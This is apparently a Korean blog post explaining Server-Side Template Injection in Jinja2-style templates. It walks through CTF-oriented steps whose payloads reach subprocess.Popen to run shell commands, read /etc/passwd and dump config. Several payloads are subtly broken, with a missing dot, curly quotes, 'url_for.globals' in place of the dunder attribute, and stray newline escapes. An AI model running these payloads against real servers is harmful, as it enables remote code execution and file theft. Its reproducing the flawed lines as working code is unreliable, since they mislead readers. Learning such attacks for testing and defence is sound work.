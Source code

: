```yaml
---
layout: post
title: "SSTI 취약점"
date: 2020-11-06
categories: WEB_HACKING
tags: [web,웹 취약점,ssti]
---
```



## SSTI(Server-Side Template Injection) 취약점이란?
: 웹 어플리케이션에서 동적인 내용을 HTML로 출력할때, 미리 정의한 Template에 동적인 값을 넣어 출력하는 템플릿을 사용하는 경우가 있다.

```
int a;
'''
<html>
<body>
    <h1> {{a}}
</body>
</html>
'''
```

여기서 만약에 Template source에 사용자 입력이 들어간다면 악의적인 입력을 통해 개발자가 의도하지않은 기능을 수행할 수 있게 된다 즉 사용자의 입력데이터가 Template에 직접사용될 위험이 있다는 말이다. 이를 SSTI 취약점이라고 칭한다.

Template의 종류는 다양한데, 보통 jinja2, mako 를 사용하는 것같다.

이 취약점을 테스트 할 때는 다음과 같은 단계로 테스트해 볼수 있다.


1 어떤 템플릿인지 확인하기
```
{{7*7}}
{{7*'7'}}
${7*7}
```
![ssti](./SSTI.png)

2 OS라이브러리에 있는 config 추가
```
{{config.from_object('os')}}*"
```

3 현재 설정되어있는 config 확인
```
{{config}}
{{config.items()}}
```

4 root 클래스에 접근.
```
{{''.__class__.__mro__}}
```

5 상속받은 클래스 확인
```
{{''.__class__.__mro__[1].__subclasses__()}}
```

여기서 1은 4에서 나온 클래스 중 2번째 인덱스타입을 선택했기 때문에 1을 적은것. (보통 str이 0번, object가 1인데 1을 자주쓰는것같다..)

6 사용할 클래스 고르기
```
\n{\n{''.__class__.__mro__[1].__subclasses__()[400:]}}
```
몇번째인지 잘 확인한다.. 이거는 400번 클래스 부터 나온다는 의미의 명령어인데 이렇게 클래스를 골라주면 됨. 보통 Popen 클래스를 사용해서 flag 를 확인한다. 시스템 명령어도 가능한듯.



7 클래스 사용 (Payload)
```
{{''.__class__.__mro__[1]__subclasses__()[408]('ls',shell=True,stdout=-1).communicate()}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{''.__class__.mro()[0].__subclasses__()[408]('cat ./flag',shell=True,stdout=-1).communicate()[0].strip()}}
{{url_for.globals.os.popen(“cat%20flag.txt”).read()}}
```


[참고]
- SSTI 취약점 설명
https://watchout31337.tistory.com/m/177?category=904110
- payload 모음집 github:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- Dremhack 서버사이드 강의